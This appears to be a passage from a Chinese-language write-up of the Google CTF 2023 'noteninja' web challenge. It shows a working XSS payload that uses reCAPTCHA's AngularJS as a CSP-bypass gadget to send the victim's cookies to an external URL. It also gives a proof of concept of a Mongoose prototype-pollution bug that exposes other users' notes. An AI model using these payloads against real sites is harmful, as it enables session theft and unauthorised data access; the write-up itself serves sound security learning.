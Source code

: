 在 recaptcha 網站裡面有個 angular 可以拿來當作 gadget，因此最後的解法是：

``` html
++++++++++++++++++++++++++++++++++++++
<div
  ng-controller="CarouselController as c"
  ng-init="c.init()"
>
&#91[c.element.ownerDocument.defaultView.parent.location="http://google.com?"+c.element.ownerDocument.cookie]]
<div carousel><div slides></div></div>

<script src="https://www.google.com/recaptcha/about/js/main.min.js"></script>
++++++++++++++++++++++++++++++++++++++
```

也算是學到一個比較少人知道的 CSP bypass 了

然後有另一支隊伍直接找到了一個 Mongoose 的 0day：[Mongoose Prototype Pollution Vulnerability in automattic/mongoose](https://huntr.dev/bounties/1eef5a72-f6ab-4f61-b31d-fc66f5b4b467/)

原因在程式碼的這一行：https://github.com/google/google-ctf/blob/master/2023/web-noteninja/challenge/src/pages/api/notes/%5Bid%5D.js#L74

``` js
await Note.findByIdAndUpdate(id, { ...req.body, htmlDescription: htmlDescription });
```

直接把整個 body 吃進去，然後就可以透過 `$rename` 弄出一個 prototype pollution：

``` js
import { connect, model, Schema } from 'mongoose';

await connect('mongodb://127.0.0.1:27017/exploit');

const Example = model('Example', new Schema({ hello: String }));

const example = await new Example({ hello: 'world!' }).save();
await Example.findByIdAndUpdate(example._id, {
    $rename: {
        hello: '__proto__.polluted'
    }
});

// this is what causes the pollution
await Example.find();

const test = {};
console.log(test.polluted); // world!
console.log(Object.prototype); // [Object: null prototype] { polluted: 'world!' }

process.exit();
```

透過這個 prototype pollution 的洞，可以讓 `find()` dump 出所有的資料，就可以看到其他人的 note。
